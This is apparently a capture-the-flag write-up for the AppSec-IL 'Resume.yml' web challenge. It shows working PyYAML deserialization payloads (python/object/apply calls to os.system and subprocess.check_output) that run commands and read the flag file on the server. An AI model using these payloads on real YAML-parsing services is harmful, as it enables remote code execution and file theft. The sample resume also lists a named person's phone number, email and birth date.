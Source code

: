# Resume.yml
* Category: Web
* 150 Points
* Solved by the JCTF Team

## Description
> Writing your resume on word is for rookies.
> 
> Real programmers use yaml.
> 
> I hope I don't have any bugs


## Solution

As the name suggests, the attached website allowed entering a resume formatted in YAML and submitting it to a service which translates it to HTML.

For example, the following YAML structure:

```yaml
profile:
    name: Sebastian Hanula
    label: Software engineer
    email: sebastian.hanula@gmail.com
    phone: +48 693 320 358
    birth: 10-02-1983
    address: Myślenice, Poland
```

Got translated (more or less) to the following HTML structure:

```html
<div class="header">
    <div class="col-md-6 col-sm-12">
        <h1>Sebastian Hanula</h1>
        <h3>Software engineer</h3>
    </div>
</div>

<div class="">
    <div class="col-md-6 col-sm-12">
        <dl class="contacts dl-horizontal">
            <dt>Address:</dt>
            <dd>Myślenice, Poland</dd>

            <dt>Phone:</dt>
            <dd>+48 693 320 358</dd>

            <dt>Email:</dt>
            <dd>
                <a href="mailto:sebastian.hanula@gmail.com">
                    sebastian.hanula@gmail.com
                </a>
            </dd>
        </dl>
    </div>
</div>
```

The obvious next step is to try and understand how to execute code via YAML. A search suggests [PyYAML](https://pyyaml.org/wiki/PyYAMLDocumentation), with syntax such as:

| YAML tag | Python type |
| --- | --- |
| `!!python/name:module.name` | `module.name` |
| `!!python/module:package.module` | `package.module` |
| `!!python/object:module.cls` | `module.cls instance` |
| `!!python/object/new:module.cls` | `module.cls instance` |
| `!!python/object/apply:module.f` | `value of f(...)` |


We can try:

```yaml
profile:
    name: !!python/object/apply:os.system ["ls"]
```

Which just sets the name to `0` (the process return address).

A better choice is:
```yaml
profile:
    name: !!python/object/apply:subprocess.check_output ["ls"]
```

which sets the name to "`b'flag\nmain.py\nrequirements.txt\ntemplates\n'`".

We want the flag, so let's try:

```yaml
profile:
    name: !!python/object/apply:subprocess.check_output [["cat", "flag"]]
```

And we get the flag: `AppSec-IL{1-W4n73D-N1c3-CV-1-907-N1c3-Rc3}`